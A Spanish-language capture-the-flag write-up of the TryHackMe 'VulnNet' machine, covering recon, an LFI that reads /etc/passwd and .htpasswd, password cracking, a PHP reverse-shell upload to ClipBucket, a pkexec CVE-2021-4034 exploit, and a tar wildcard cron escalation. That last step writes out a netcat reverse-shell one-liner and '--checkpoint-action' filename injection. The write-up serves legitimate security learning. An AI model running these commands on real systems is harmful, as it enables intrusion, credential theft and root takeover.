# VulnNet

## Información General

<h3>Dificultad:  </h3>

<h3> Sistema operativo: Linux </h3> 

<h3> Vulnerabilidad explotada: Reverse shell, el binario pkexec y la vulnerabilidad Tar Wildcard</h3>

<h3> Fecha de resolución: 13/07/2025 </h3>

<h3>Enlace de la mv: <a href="https://tryhackme.com/room/vulnnet1" target="_blank">VulnNet</a></h3>

### *Leer el documentro en Ingles:* <a href="Vulnnet_english.md">VulnNet</a>

## Reconocimiento

TryHackme nos proporciona la ip de la máquina objetivo **ip_objetivo**

Voy a establecer en el fichero **/etc/hosts** la **ip de la mv objetivo**, la voy a llamar **Nombre que le quieres dar**

<p align="center"> 

</p>

### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 vulnnet.thm
```

<p align="center"> 

</p>

**Su el ttl es 63. Por tanto, es Linux**

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn vulnnet.thm
```

<div align="center">

| Open port | Service | Version                         |
| --------- | ------- | ------------------------------- |
| 22        | ssh     | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 80        | http    | Apache httpd 2.4.29             |

</div>

#### Escaneo de puerto UDP

```
nmap -sU --top-ports 200 --min-rate=5000 -Pn vulnnet.thm
```
**Ningún puerto abierto**

## Exploración

### Fuzzing web 

```
gobuster dir -u http://ip_obejtivo/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
```

<p align="center"> 

</p>

Visito la ruta **/js**

<p align="center"> 

</p>

Hay dos archivos javascript (.js), uso un visualizador mejor de **js** para leerlo mejor

Otro fuzzing web que hago es es el siguiente:

```
wfuzz -c --hc=400 --hl=367 -w /usr/share/dnsrecon/dnsrecon/data/subdomains-top1mil-20000.txt -H "Host: FUZZ.vulnnet.thm" -u vulnnet.thm
```

<p align="center"> 

</p>

Luego, pruebo broadcast de la siguiente manera en el navegador:

```
http://broadcast.vulnnet.thm/
```

<p align="center"> 

</p>

Retomaremos este punto, luego pero viene bien tenerlo en cuenta.

A continuación para averiguar un enlace oculto hay dos formas:

#### Primera forma

Usando la herramienta **LinkFinder**, como el nombre indica se basa en encontrar enlace oculto, para instalarlo usaríamos el siguiente comando:

```
git clone https://github.com/GerbenJavado/LinkFinder.git
cd LinkFinder
sudo python setup.py install
```

Luego para usarlo en nuestro CTF, usaríamos el siguiente comando:

```
python3 linkfinder.py -d -i http://vulnnet.thm/ -o cli
```

<p align="center"> 

</p>

#### Segunda forma 

Visitando la siguiente ruta

```
http://vulnnet.thm/js/index__d8338055.js
```

<p align="center"> 

</p>

Definitivamente me quedo con la primera 

```
http://vulnnet.thm/index.php?referer=
```
Por otra parte vamos a usar otro comando de fuzzing web como este:

### LFI

**¿Qué es LFI?**

*Es una vulnerabilidad web que permite a un atacante **leer archivos del sistema del servidor** a través de una entrada manipulada.*

```
view-source:http://vulnnet.thm/index.php?referer=/etc/passwd
```
Coloco en el enlace oculto lo siguiente: **/etc/passwd** con el objetivo de encontrar los usuarios de la máquina.

<p align="center"> 

</p>

Entonces con esto podemos intuir que, el parametro **index.php?referer=** es vulnerable y podemos leer archivos críticos del sistema.

Siempre cuando tenemos un usuario hay que probar el siguiente el parámetro: **/.ssh/id_rsa**

```
http://vulnnet.thm/index.php?referer=/home/server-management/.ssh/id_rsa
```
**pero no me funciono :(**

Antes tenemos que saber lo que es el fichero **.htpasswd**

El fichero .htpasswd es un archivo que se utiliza para almacenar nombres de usuario y contraseñas cifradas en sistemas que usan autenticación HTTP básica, típicamente con Apache (pero también puede usarse con Nginx u otros servidores web).

Busco en el navegador lo siguiente:

```
httpasswd default folder apache2
```

<p align="center"> 

</p>

Encuentro algo interesante **/etc/apache2/.htpasswd**

```
http://vulnnet.thm/index.php?referer=/etc/apache2/.htpasswd
```

<p align="center"> 

</p>

### John The Ripper

Guardo lo que consegui anteriormente en un .txt y uso john the ripper

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<p align="center"> 

</p>

Por tanto tenemos:

**Usuario**: developers\
**Contraseña**: 9972761drmfsls

Recordemos que en este enlace podemos introducir usuario y contraseña.

```
http://broadcast.vulnnet.thm/
```

<p align="center"> 

</p>

**Hemos conseguido entrar (HA COSTADO LO SUYO)**

## Explotación

Investigo como puedo explotar el CMS ClipBucket, lo bueno es que el navegador me dice la version v4.0

<p align="center"> 

</p>

En el navegador busco

```
exploit clipbucket v4.0
```

Y me encuentro con exploit-db

<p align="center"> 

</p>

La propia kali ya tiene de por sí, un reverse-shell puedes encontrarlo con este comando:

```
locate reverse-shell 
```

<p align="center"> 

</p>

Continuamos con exploit-db, me encuentro varias técnicas para acceder al usuario, pero me quedo con esta:

<p align="center"> 

</p>

```
curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/beats_uploader.php"
```

Pero adaptado a este exploit sería así:

```
curl -F "file=@reverse_shell.php" -F "plupload=1" -F "name=anyname.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php"
```

<p align="center"> 

</p>

Pero me va a pedir credenciales. Por tanto, el comando quedaría así:

```
curl -u developers:9972761drmfsls  -F "file=@reverse_shell.php" -F "plupload=1" -F "name=anyname.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php"
```

<p align="center"> 

</p>

Se ha guardado en la carpeta **CB_BEATS_UPLOAD_DIR**

Hago un fuzzing web para encontrar donde encuentra esa carpeta con el siguiente comando:

```
gobuster dir -u http://broadcast.vulnnet.thm -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -U developers -P 9972761drmfsls
```

<p align="center"> 

</p>

Investigando encuentro que la carpeta **actions** se encuentra **CB_BEATS_UPLOAD_DIR**

Preparo el comando que sería el puerto de escucha:

```
nc -lvnp 4444
```

<p align="center"> 

</p>

**Conseguí entrar**
## Explotación Posterior

#### TTY

```
script /dev/null -c bash
```
**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
### Escalada de Privilegios

#### Primera Forma:

```
find / -perm -4000 2>/dev/null
```

<p align="center"> 

</p>

Siempre cuando tenemos la oportunidad de escalar privilegio con **pkexec** buscamos en <a href="https://github.com/NxPnch/pkexec-exploit" target="_blank">google</a>

Para descargarlo con **wget** solo nos bastaría irnos aquí y copiamos la url

<p align="center"> 

</p>

```
wget https://raw.githubusercontent.com/NxPnch/pkexec-exploit/refs/heads/main/CVE-2021-4034.py
```

Luego le cambio el nombre para que sea más facil

<p align="center"> 

</p>

comparto el archivo con este comando 

```
python -m http.server 80
```

Luego situado en la carpeta **/tmp** me traigo el archivo con el siguiente comando:

```
wget http://ipMaquinaAtacante/CVE-2021-4034.py
```

<p align="center"> 

</p>

Luego, le damos permiso de ejecución y ejecutamos

```
chmod +x exploit.py
./exploit.py
n
```

<p align="center"> 

</p>

**Primera bandera**

```
cd /home/server-management
```

<p align="center"> 

</p>

**Segunda bandera**

``` 
cd /root
```

<p align="center"> 

</p>

-----------------------------------------

**Esta es la parte fácil, ahora voy a enseñar como sería la parte más larga, más que nada lo hago porque esto puede caer en el examen del ejptv2.**

### ¿Cómo consigo loguearme como usuario server-management?

Primero debemos de saber que es **crontab**. **Crontab** es una herramienta en Linux que sirve para **programar tareas automáticas** que se ejecutan en determinados momentos.

Si nos situamos en la carpeta **/var/backups/**

<p align="center"> 

</p>

Observamos que hay un back ups del usuario **server-management** si lo movemos a la carpeta **/tmp**, podemos lograr extraerlo

```
tar -xzvf ssh-backup.tar.gz
```

<p align="center"> 

</p>

Conseguimos el archivo id_rsa.

*El archivo `id_rsa` es tu **clave privada SSH**, y es parte de un par de claves que se usan para **autenticación segura** sin contraseña en servidores remotos.*

pero....

```
cat id_rsa
```

<p align="center"> 

</p>

Esta en concreto está encriptada, por tanto lo desencriptaremos con john the ripper en nuestra máquina atacante.

En nuestra maquina atacante haremos lo siguiente comandos

```
ssh2john id_rsa > id_rsa.hash
john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

<p align="center"> 

</p>

Usuario: server-management
Contraseña: oneTWO3gOyac

No hay que olvidar que el archivo id_rsa le tenemos que dar permiso que solamente el usuario lo puede usar, sino, no funcionará

```
chmod 600 id_rsa
```

Luego, nos intentamos meter por ssh

```
ssh -i id_rsa server-management@vulnnet.thm
```

<p align="center"> 

</p>

**Estamos dentro como usuario server-management**

### ¿Cómo escalo privilegio con crontab?

```
cat /etc/crontab
```

<p align="center"> 

</p>

Observamos que hace un backupsrv.sh e intentamos enteder este script 

```
cat /var/opt/backupsrv.sh
```

<p align="center"> 

</p>

Este script consiste en:

Hace una copia comprimida (.tgz) de todo el contenido de **/home/server-management/Documents.**

Guarda esa copia en **/var/backups**

El nombre del backup incluye el nombre del equipo y el día de la semana.

Sirve para tener un backup diferente cada día, como:

```
myserver-Monday.tgz
myserver-Tuesday.tgz
```

En esta página te explica como explotar la vulnerabilidad Wildcard https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/ 

Para llevarlo acabo, en nuestra máquina atacante, escribimos lo siguinete:

```
msfvenom -p cmd/unix/reverse_netcat lhost=10.8.139.36 lport=8888 R
```

<p align="center"> 

</p>

Luego en nuestra maquina victima escribimos esto

```
echo "mkfifo /tmp/izrwvv; nc 10.8.139.36 8888 0</tmp/izrwvv | /bin/sh >/tmp/izrwvv 2>&1; rm /tmp/izrwvv" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

Dejamos activado el puerto de escucha en nuestra maquina atacante

```
nc -lvnp 8888
```

En cuestión de un minuto y poco logramos acceder como **root**

<p align="center"> 

</p>

**Máquina terminada**

## Conclusión

Esta máquina me ha resultado bastante complicada al inicio, porque he tenido que aprender cosas nuevas, como mirar el código fuente de la pagina cuando ejecuto comandos de LFI. Por otro lado, repasar John the ripper, y aprender como leer vulnerabilidades en exploit-db. Todo esto solo para acceder al sistema. Por último la escalada de privilegio me resulto más fácil, porque estaba presente el binario **pkexec** , una vez llevado acabo, conseguí ser root. Mirando otro write ups con el motivo de ver otra formas de como escalar privilegio, aprendí que se podría explotar con la vulnerabilidad **Wildcard**. También repasas ficheros esenciales como **id_rsa**. Una máquina de nivel Medium, que se nota sinceramente, en el cual siento que he aprendido muchísimo. 

